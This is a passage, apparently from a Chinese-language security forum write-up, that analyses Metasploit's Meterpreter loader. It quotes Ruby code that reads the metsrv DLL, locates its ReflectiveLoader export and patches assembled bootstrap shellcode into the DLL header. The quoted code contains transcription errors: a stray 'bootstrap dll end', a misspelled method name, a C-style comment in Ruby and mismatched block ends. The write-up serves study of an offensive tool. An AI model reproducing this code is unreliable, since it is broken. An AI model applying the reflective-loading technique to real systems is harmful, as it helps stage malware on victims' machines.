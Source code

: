 meterpreter\_loader.rb文件中的汇编用于调用stage，我们看一下这个文件

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-70ffc0e6c1459d6f61d6428a68c0f3cb666bfa70.png)

```c
def stage_meterpreter(opts={}) 
    # Exceptions will be thrown by the mixin if there are issues. 
    dll, offset = load_rdi_dll(MetasploitPayloads.meterpreter_path('metsrv', 'x86.dll'))//得到ReflectiveLoader函数的偏移 
    asm_opts = { 
        rdi_offset: offset, 
        length: dll.length, 
        stageless: opts[:stageless] == true
    } 
    asm = asm_invoke_metsrv(asm_opts) 
    # generate the bootstrap asm 

    bootstrap = Metasm::Shellcode.assemble(Metasm::X86.new, asm).encode_string 

    # sanity check bootstrap length to ensure we dont overwrite the DOS headers e_lfanew entry 
    if bootstrap.length > 62 
        raise RuntimeError, "Meterpreter loader (x86) generated an oversized bootstrap!" 
    end 

    # patch the bootstrap code into the dll's DOS header... 
    dll[ 0, bootstrap.length ] = bootstrap dll end
    dll 
end
```

来看一下下面的代码。

此函数功能：读取dll，接着调用parse\_pe函数得到ReflectiveLoader函数的偏移，在第11行返回了dll的数据与函数的便宜。

parse\_pe函数通过遍历dll的导出表得到名字是ReflectiveLoader函数的偏移

```c
def load_rdi_dll(dll_path) 
    dll = '' 
    ::File.open(dll_path, 'rb') { |f| dll = f.read } 
    offset = parse_pe(dll) 
    unless offset 
        raise "Cannot find the ReflectiveLoader entry point in #{dll_path}" 
    end 

    return dll, offset 
end 

def parse_pe(dll) 
    pe = Rex::PeParsey::Pe.new(Rex::ImageSource::Memory.new(dll)) 
    offset = nil 

    pe.exports.entries.each do |e| 
        if e.name =~ /^\\S\*ReflectiveLoader\\S\*/ 
        offset = pe.rva_to_file_ofset(e.rva) 
        break 
    end 
end 
    offset 
end
```
